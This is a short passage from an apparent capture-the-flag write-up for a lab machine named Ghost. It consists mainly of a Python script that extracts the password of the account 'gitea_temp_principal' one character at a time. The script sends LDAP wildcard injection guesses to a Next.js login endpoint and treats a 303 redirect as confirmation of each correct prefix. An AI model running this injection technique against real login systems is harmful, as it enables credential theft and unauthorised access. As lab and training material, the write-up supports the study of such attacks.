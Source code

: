 ![Screenshot](Ghost6.png)

To automate extraction of the password for the known username `gitea_temp_principal`, I leveraged the following Python script:

```
import string
import requests

login_url = 'http://intranet.ghost.htb:8008/login'

req_headers = {
    'Host': 'intranet.ghost.htb:8008',
    'Accept-Language': 'en-US,en;q=0.5',
    'Next-Router-State-Tree': '%5B%22%22%2C%7B%22children%22%3A%5B%22login%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D',
    'Next-Action': 'c471eb076ccac91d6f828b671795550fd5925940',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
}

password = ""

while True:
    for char in string.ascii_lowercase + string.digits:
        password_guess = f'{password}{char}*'
        data = {
            '1_ldap-username': (None, 'gitea_temp_principal'),
            '1_ldap-secret': (None, password_guess),
            '0': (None, '[{},"$K1"]')
        }

        response = requests.post(login_url, headers=req_headers, data=data)
        
        if response.status_code == 303:
            password += char
            print(f"Current password: {password}*")
            break
```